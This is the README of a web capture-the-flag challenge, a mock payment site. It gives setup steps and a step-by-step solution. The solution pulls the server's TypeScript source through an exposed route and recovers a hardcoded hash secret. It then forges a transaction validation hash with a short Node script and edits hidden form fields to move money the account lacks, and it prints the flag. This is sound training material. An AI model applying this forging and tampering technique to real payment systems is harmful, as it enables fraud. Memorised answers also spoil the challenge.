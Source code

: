 # PayMeYourMoney
PayPal'ish web CTF challenge.

## Description:

A successful deal is the one where your money always reaches its destination. That is why you should to use our payment system! We **type of** love using new technologies there. For sure, you'll love it!

## Setup:
**Option 1**: Using Docker
1) Build the docker image:
```bash
docker build -t <your username>/pay-me-your-money .
```
2) Run the container:
```bash
docker run -p 2012:2012 -d <your username>/pay-me-your-money
```
3) Connect via your browser to http://127.0.0.1:2012/

**Option 2**: Host directly using Node
1) Enter **PayMeYourMoney** cloned directory.
2) Run:
```
node ./dist/index.js
```
Note, that you should **not** run it directly from the *dist* folder. 

3) Connect via your browser to http://127.0.0.1:2012/

## Solution:
1) There is a hint the website's footer:
```
We type of love using new technologies...
```
It refers to **TypeScript**, which is compiled strongly typed JavaScript.

2) We know that TypeScript uses **.ts** file extensions. So, we check if the router was configured properly:
```
http://127.0.0.1:2012/index.ts
```
Gotcha! Now we have backend's sources!

3) Let's invistigate **the router**. We have its path from index.ts:
```
http://127.0.0.1:2012/components/app/controllers/router.ts
```

4) It looks like the only check for user's balance is in ```router.post("/confirm"...```:
```TypeScript
if (+amount > card.balance) {
    new StatusView("Not enough money!", "Sorry, but you can not give more than you have...").render(response);
    return;
}
```

But the actual transaction happens in ```router.post("/pay"...```!

5) We cannot simply call */pay*, because it checks for a validation hash sum generated by */confirm*. But since we have its sources, we are able to generate the transaction signature ourselves!
```TypeScript
const hasher = Crypto.createHash("sha256");
const hash = hasher.update(
    (+from + +to).toString() + to.toString() + card.transactions +
    amount + "7h15_15_7h3_50l71357_50l7_y0u_h4v3_3v3r_533n!"
).digest("hex");
```

6) Let's try it. Firstly, we create a new account. Then, we add another card to it. (We can enable **Add Card** button by inspecting the HTML element).
```HTML
<form action="/addcard" method="post">
    <input type="hidden" name="name" value="Personal Card">
    <button class="add-card">Add Card</button>
</form>
```
You can even change the card's name if you want to.

7) Remembering the new card's ID(in our example it's **8797 1237 1586 5698**), we go to the **transfer** page. Let us send some money to our new card!

8)  Now we have this form:
```HTML
<form action="/pay" method="post">
    <input type="hidden" name="from" value="9875910160063706">
    <input type="hidden" name="to" value="8797123715865698">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="validation" value="d661800d00a65f27fb942cdfb44a4831b6c25e30a2d38ae3918467bed43e72ab">
    <button type="submit">Confirm</button>
</form>
```

Here we change the amount and the validation using the hash function. Let it be 9,999,999.
```JavaScript
const c = require("crypto");
const hasher = c.createHash("sha256");
const hash = hasher.update(
    (+"9875910160063706" + +"8797123715865698").toString() + "8797123715865698".toString() + "0" +
    "9999999" + "7h15_15_7h3_50l71357_50l7_y0u_h4v3_3v3r_533n!"
).digest("hex");
```
Note, that we set ```card.transactions``` to ```0``` since it was a newly created card and it does not have any transactions yet.
```bash
> hash
'25b580249777fb6f780d9d02388e77ea11d0d926e21516ee86a2a01c9b969631'
```

1) Now we send the modified form:
```HTML
<input type="hidden" name="amount" value="9999999">
<input type="hidden" name="validation" value="25b580249777fb6f780d9d02388e77ea11d0d926e21516ee86a2a01c9b969631">
```

10) Success!
You successfuly transfered 9999999!

11)  To get the flag you should go to **FlagsStore**. It can be found in *Advertisements Section* in the right bottom of the *profile* page.

12) Now we have enough money to buy the flag!
```
You did it!
Enjoy your flag: ELON{4lw4y5_pr073c_y0ur_5rc_4nd_7r4n54c710n5}.
```